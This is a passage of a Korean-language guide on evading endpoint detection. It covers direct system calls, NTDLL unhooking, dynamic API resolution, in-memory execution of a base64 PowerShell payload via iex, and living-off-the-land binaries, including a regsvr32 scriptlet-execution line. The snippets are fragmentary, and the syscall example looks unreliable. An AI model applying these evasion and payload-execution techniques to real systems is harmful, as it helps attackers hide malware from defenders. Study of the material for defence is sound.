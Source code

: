 ### 2. 직접 시스템 호출 및 API 후킹 우회

#### 직접 시스템 호출

많은 EDR 솔루션은 Windows API 함수를 후킹하여 모니터링합니다. 공격자는 이러한 후킹을 우회하기 위해 직접 시스템 호출을 사용할 수 있습니다.

```c
// Direct syscall 예시
__asm {
    mov eax, 0x25 // NtCreateFile의 syscall 번호
    mov edx, esp
    sysenter
}
```

#### NTDLL 매핑 우회

이 기법은 후킹된 NTDLL.DLL을 우회하기 위해 디스크에서 새로운 NTDLL 복사본을 로드합니다.

1. 디스크에서 깨끗한 NTDLL.DLL 복사본 매핑
2. 필요한 함수 주소 추출
3. 메모리에서 직접 함수 호출

#### 탐지 회피를 위한 동적 함수 해석

문자열 참조 대신 동적으로 함수 주소를 해석하여 정적 분석 탐지를 회피합니다.

```c
// 동적 함수 해석 예시
HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
FARPROC pCreateProcessA = GetProcAddress(hKernel32, "CreateProcessA");
((CREATE_PROCESS_A)pCreateProcessA)(NULL, commandLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
```

### 3. 파일리스 멀웨어 기법

#### PowerShell 및 WMI 사용

PowerShell 및 Windows Management Instrumentation(WMI)을 사용하여 디스크에 파일을 쓰지 않고 공격을 수행합니다.

```powershell
# 메모리에서 직접 PowerShell 페이로드 실행
$code = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('Base64 인코딩된 페이로드'));
iex $code
```

#### Living-off-the-Land 기법(LOLBins)

시스템에 내장된 합법적인 바이너리를 악용하여 공격을 수행합니다.

```
# regsvr32를 사용한 코드 실행 예시
regsvr32.exe /s /u /i:evil.sct scrobj.dll
```

주요 LOLBins:
- regsvr32.exe
- mshta.exe
- certutil.exe
- bitsadmin.exe
- msiexec.exe
